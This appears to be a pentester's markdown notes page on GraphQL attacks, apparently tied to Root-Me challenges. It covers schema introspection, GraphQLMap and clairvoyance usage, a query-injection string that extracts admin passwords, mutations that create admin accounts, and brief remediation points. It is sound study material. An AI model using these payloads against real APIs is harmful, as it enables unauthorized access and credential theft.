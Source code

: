 # GraphQL

[![graphql](../../../../cybersecurity/_badges/hacktricks/graphql.svg)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)
[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

<div class="row row-cols-lg-2"><div>

[GraphQL](https://en.wikipedia.org/wiki/GraphQL) (Graph Query Language) is an open-source query language for APIs. It's used by GitHub, Shopify, and Facebook internally.

* [GraphQL Documentation](https://graphql.org/) <small>(⛪)</small>
* [GitHub](https://github.com/graphql/graphql-js) <small>(20.2k ⭐)</small>

It was designed to provide a more efficient, powerful, and flexible alternative to traditional REST APIs. It solves a problem of REST APIs which is under- and over-fetching.

There is only one endpoint. We can perform multiple queries in one request. Look for: `/api/graphql`, `/graphql`, `/graphiql`, etc.

Look into the JavaScript Source Code and you may find if it's used.
</div><div>

 To query the `id,username` of the `user` with `id=123`:

```graphql
query {
  # if available, list all users as "users"
  users: user { id, username }
  # query one user
  user(id: 123) {
    id
    username
  }
}
```
</div></div>

<hr class="sep-both">

## GraphQLMap

[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)
[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

<div class="row row-cols-lg-2"><div>

[GraphQLMap](https://github.com/swisskyrepo/GraphQLmap) <small>(1.4k ⭐, 2023 🪦)</small> was developed by the owner of PayloadsAllTheThings. It allows us to send GraphQL queries to an endpoint rather easily. It also provide a few utilities.

```shell!
$ pipx install git+https://github.com/swisskyrepo/GraphQLmap
$ pipx runpip graphqlmap install requests
$ graphqlmap -h.1``

It can dump the schema and present it in a nice representation.
</div><div>

A basic usage:

```shell!
$ graphqlmap -u 'https://example.com/api/graphql' --headers '{"Authorization": "Bearer ..."}' --method POST
prompt> query { account(username: "admin") { id, username, password } }
```
</div></div>

<hr class="sep-both">

## Introspection 🗺️

[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)

Introspection refer to dumping the API schema. It's often disabled in production.

<div class="row row-cols-lg-2"><div>

#### Introspection — Manual Queries

Each object has a type. Each type has attributes. The type may have a constructor with arguments that are required to query an object.

```text!
{__schema{types{name}}}
{__schema{types{name,fields{name}}}}
{__schema{types{name,fields{name},description}}}
{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

After identifying the types and their arguments, we can query them:

```text!
{MyType{field1, field2}}
{MyType(arg:value){field1, field2}}
```

➡️ When errors are enabled, you can receive suggestions from GraphQL like a type or attribute name that is similar to your input.
</div><div>

#### Introspection — Graphical WebUI

[GraphQL Voyager](https://graphql-kit.com/graphql-voyager/) <small>(7.7k ⭐)</small> can take the input from your introspection query or from tools such as [clairvoyance](#introspection--clairvoyance) and display it as a graph.

<br>

#### Introspection — clairvoyance

[clairvoyance](https://github.com/nikitastupin/clairvoyance) <small>(1.1k ⭐)</small> can be used to dump the schema:

```shell!
$ pipx install git+https://github.com/nikitastupin/clairvoyance
$ clairvoyance 'https://example.com/api/graphql' -o schema.json
```

</div></div>

<hr class="sep-both">

## GraphQL Injections

<div class="row row-cols-lg-2"><div>

#### GraphQL Query Injection

[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

Much like SQL, you can manipulate a query if user input is added directly to the query without any sanitization.

```graphql
query {
  product(name: "$prodname") {
    id
    name
    description
  }
}
```

The normal expected input would be:

```js!
prodname = "toy"
```

But a malicious user could use the code below. We use `#` to avoid handling the rest of the request.

```js!
username = 'toy"){\nid\n}\naccount(username:"admin"){\nid,username,password\n}#'
```

Another alternative would be to close the `query{` by using `\n}`.
</div><div>
</div></div>

<hr class="sep-both">

## GraphQL Mutation Queries

[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

<div class="row row-cols-lg-2"><div>

When introspecting the database, we may find mutations. They are functions allowing us to add/edit the database.

```text!
createAccount[]: id (Int!), username (String!), password (String!)
```

You can invoke it as follows:

```graphql
mutation {
  createAccount(id: 5, username: "admin", password: "abc") { id, username }
}
```
</div><div>

The main issues are:

* 📚 Creating records to bypass access control <small>(role=admin)</small>
* 🪦 Creating records to perform an attack such as XSS
* 💦 Updating records to bypass access control <small>(role=admin)</small>
* 💥 Creating/Updating records to exploit references and access unintended objects. For instance, if we were blocked access to B, but we can create an object A that is referencing an object B, then by querying A, we may be able to access B.

```graphql
query { notes { id, flag } } # blocked
query { post(id: 1) { id, notes { id, flag } } } # OK
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [How to exploit GraphQL endpoint: introspection, query, mutations & tools](https://www.yeswehack.com/learn-bug-bounty/how-exploit-graphql-endpoint-bug-bounty)
* [pentest101](https://escape.tech/blog/pentest101/)
* [inigo](https://inigo.io/blog/graphql_injection_attacks)
* InQL
</div><div>

Remediation

* RateLimit alone is not very useful as multiple queries in one request
* SizeLimit should be enforced to block long requests
* Access Control should be implemented (ex: JWT)
* The server should validate types and values
</div></div>